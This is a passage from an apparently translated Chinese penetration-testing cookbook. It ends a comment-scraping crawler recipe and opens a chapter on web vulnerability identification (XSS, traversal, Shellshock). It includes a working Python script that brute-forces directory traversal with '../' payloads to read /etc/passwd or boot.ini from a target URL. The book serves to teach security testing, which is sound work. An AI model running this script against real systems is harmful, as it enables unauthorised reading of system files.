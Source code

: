 一旦脚本整理出从页面链接出去的 URL 列表，它将搜索每个页面的 HTML 注释。

## 还有更多…

本示例展示了注释抓取和爬虫的基本示例。可以根据需要为此示例添加更多智能。例如，您可能希望考虑使用以`。`或`..`开头的相对链接来表示当前目录和父目录。

您还可以对爬虫部分进行更多控制。您可以从提供的目标 URL 中提取域，并创建一个过滤器，不会抓取目标外部的域的链接。这对于需要遵守目标范围的专业工作特别有用。


# 第三章：漏洞识别

在本章中，我们将涵盖以下主题：

+   自动化基于 URL 的目录遍历

+   自动化跨站脚本（参数和 URL）

+   自动化基于参数的跨站脚本

+   自动模糊测试

+   jQuery 检查

+   基于头部的跨站脚本

+   Shellshock 检查

# 介绍

本章重点介绍从**开放式 Web 应用安全项目**（**OWASP**）的前 10 个传统 Web 应用程序漏洞。这将包括**跨站脚本**（**XSS**），目录遍历以及那些简单到不需要单独章节检查的其他漏洞。本章提供了每个脚本的基于参数和基于 URL 的版本，以适应任何情况并减少单个脚本的复杂性。大多数这些工具都有完全成熟的替代方案，比如 Burp Intruder。看到每个工具以其简单的 Python 形式的好处在于，它让你了解如何构建和制作自己的版本。

# 自动化基于 URL 的目录遍历

偶尔，网站使用不受限制的函数调用文件；这可能导致传说中的目录遍历或**直接对象引用**（**DOR**）。在这种攻击中，用户可以通过使用一个易受攻击的参数在网站的上下文中调用任意文件。这可以通过两种方式进行操纵：首先，通过提供绝对链接，比如`/etc/passwd`，这表示从`root`目录浏览到`etc`目录并打开`passwd`文件，其次，相对链接，可以向上遍历目录以达到`root`目录并访问目标文件。

我们将创建一个脚本，尝试逐渐增加 URL 参数中的向上目录数量，以打开 Linux 机器上始终存在的文件`/etc/passwd`。它将通过检测到指示文件已被打开的短语 root 来确定何时成功。

## 准备工作

确定您要测试的 URL 参数。此脚本已配置为与大多数设备一起使用：`etc/passwd`应该适用于 OSX 和 Linux 安装，`boot.ini`应该适用于 Windows 安装。查看本示例的末尾，以获取可用于测试脚本有效性的 PHP 网页。

我们将使用可以通过`pip`安装的 requests 库。在作者看来，它在功能和可用性方面比`urllib`更好。

## 如何做…

一旦确定要攻击的参数，请将其作为命令行参数传递给脚本。您的脚本应与以下脚本相同：

```py
import requests
import sys
url = sys.argv[1]
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
up = "../"
i = 0
for payload, string in payloads.iteritems():
  for i in xrange(7):
    req = requests.post(url+(i*up)+payload)
    if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
```